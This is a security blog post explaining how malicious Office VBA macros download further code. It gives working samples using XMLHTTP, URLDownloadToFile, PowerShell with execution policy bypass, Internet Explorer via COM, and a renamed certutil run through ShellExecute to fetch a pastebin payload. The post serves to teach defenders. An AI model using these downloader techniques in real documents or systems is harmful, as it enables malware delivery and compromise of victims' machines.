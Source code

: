 ```yaml
---
layout: post
title: Office Docs, The Macro View
categories: [Malware, Macro's, VBA]
excerpt: Attackers often use Office Macros as a means to infect computers and download additional malicious code. In this post I'll explore the ways an attacker can use macros to download more content and we'll walk through some sample code.
---
```

(Estimated Reading Time: 7 minutes)

- [Why Attackers Use Office Macros](#why-attackers-use-office-macros)
- [Approaches To Downloading More Malicious Code](#approaches-to-downloading-more-malicious-code)
- [Resources](#resources)

## Why Attackers Use Office Macros

We all know Office Macro’s can be dangerous and can be used by attackers to download additional malware. In this blog post, I wanted to explorer the basic ways that Macro’s can be used to download additional code by looking at some basic example code.  

Macros have become very popular in malware because they are easy to create and can be crafted into phishing messages to convince the user to run the macro. Despite security warning; the user will almost always click, “Enable Content” 

![MacroWarning](/images/macro_warning.PNG)

Microsoft Word, Excel, Publisher, and Power Point are all office document files that support including Visual Basic Applications (VBA) code as Macros. Microsoft hosts some good documentation here on getting started with [Macros in Office](https://docs.microsoft.com/en-us/office/vba/library-reference/concepts/getting-started-with-vba-in-office 
).  

## Approaches To Downloading More Malicious Code

There are three (maybe four) primary methods to download files using VBA Macros. The first is an XML HTTP Request (XHR), which is a method of fetching website data dynamically. Below is a very simple example of a VBA script to download the famous google logo image as a png and store it in the users home directory in a normally hidden folder, call AppData. An attacker could easily replace the image url here in this example with a malicious executable. 

```
Sub Download_File_XHR()

Dim myURL As String
myURL = "https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png"

Dim HttpReq As Object
Set HttpReq = CreateObject("Microsoft.XMLHTTP")
HttpReq.Open "GET", myURL, False
HttpReq.send

Dim output As String
output = Environ("AppData")

If HttpReq.Status = 200 Then
    Set oStream = CreateObject("ADODB.Stream")
    oStream.Open
    oStream.Type = 1
    oStream.Write HttpReq.responseBody
    oStream.SaveToFile output + "\google_image.png", 2
    oStream.Close
End If

End Sub 
```

The second method involves importing a specific features from a Windows API, and then calling that API. In this case we are importing the function URLDownloadToFile from the urlmon.dll library. This code will have the same effect as above and will download the google logo png to the users AppData folder.

```
Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" _
(ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, _
ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long

Sub Download_File_API()
    Dim myURL As String
    myURL = "https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png"

    Dim output As String
    output = Environ("AppData")
    output = output + "\google_image.png"
    
    Dim returnValue As Long
    returnValue = URLDownloadToFile(0, myURL, output, 0, 0)

End Sub
```

The previous two techniques will generate an outbound network connection from the Office executables which could appear as a red flag to a defender .The third method involves calling out to Powershell and using another program (in this case PowerShell) to download the desired file. Like the two examples above this code has the same end result of downloading the google logo into the AppData folder. In this example however you can clearly see PowerShell pop up and know that another process has been started. Attackers will typically get fancier then this example code and will often Encode parameters to hide URL's. The Windows 10, Attack Surface Reduction rule for [**Block all Office applications from creating child processes**](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-atp/attack-surface-reduction#block-all-office-applications-from-creating-child-processes) would mitigate the below example as it would prevent Office from launching PowerShell.

```
Sub Download_File_Powershell()
    Dim output As String
    output = Environ("AppData")
    output = output + "\google_image.png"

    Dim psCode As String
    psCode = "invoke-webrequest -Uri 'https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png' -OutFile " + output + " -UseDefaultCredentials"

    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run ("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -executionpolicy bypass -command " + psCode)

End Sub
```

I mentioned a forth method, which could be using Excel 4.0 (XL4) macros. This is a legacy feature of Excel but attackers have figured out how to leverage the feature to Download additional files as well. I'm not going to give an example of this method today but will link to this article where you could [read more about this technique](https://www.lastline.com/labsblog/evolution-of-excel-4-0-macro-weaponization/).

Lastly, just a note of caution, Even though the above code is totally benign and not malicious my AV software decide to protect me from my own non-malicious example code.  When I saved the above samples into an Example.xlsm file Windows Defender saved me from myself. 

![AVProtection](/images/macro_example_triggers_av.PNG)

**Update:** As I was researching this topic further I stubbled upon two more methods to Download files using Macros over at f-secures blog. The two additional methods are fairly interesting. You can use Internet Explorer via COM to download a file. This will spawn a browser from svchost (not Office) to download a file.

```
Set ie = CreateObject("InternetExplorer.Application")
ie.Navigate "https://pastebin.com/raw/tcmMXwMG"
State = 0
Do Until State = 4
DoEvents
State = ie.readyState
Loop
Dim payload: payload = ie.Document.Body.innerHTML
```

and lastly the final method mentioned in f-secure's blog is a trick to use a system binary to download/execute a payload. This approach is really simple using the copyfile function.

```
Set fso = CreateObject("Scripting.FileSystemObject")
fso.copyfile "C:\Windows\System32\certutil.exe", Environ("TEMP") & "\CVR497F.tmp", True
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "cmd", "/k cd %temp% && ren CVR497F.tmp CVR497F.com && CVR497F.com -ping https://pastebin.com/raw/tcmMXwMG > CVR31EF.tmp && del CVR497F.com", "", Null, 0
```
So in review we discussed 6 ways to use VBA Macro's to Download a file from the internet;
1. Make an XML HTTP Request (XHR)
2. Calling URLDownloadToFile Lib from urlmon
3. Calling out to PowerShell
4. Using legacy Excel 4.0 (XL4) macros
5. Call Internet Explorer via COM
6. Call a System Binary with copyfile


## Resources
* [Stackoverflow Discussion on Downloading File with VBA](https://stackoverflow.com/questions/17877389/how-do-i-download-a-file-using-vba-without-internet-explorer)
* [Dechaining-macros blog by F-Secure](https://blog.f-secure.com/dechaining-macros-and-evading-edr/)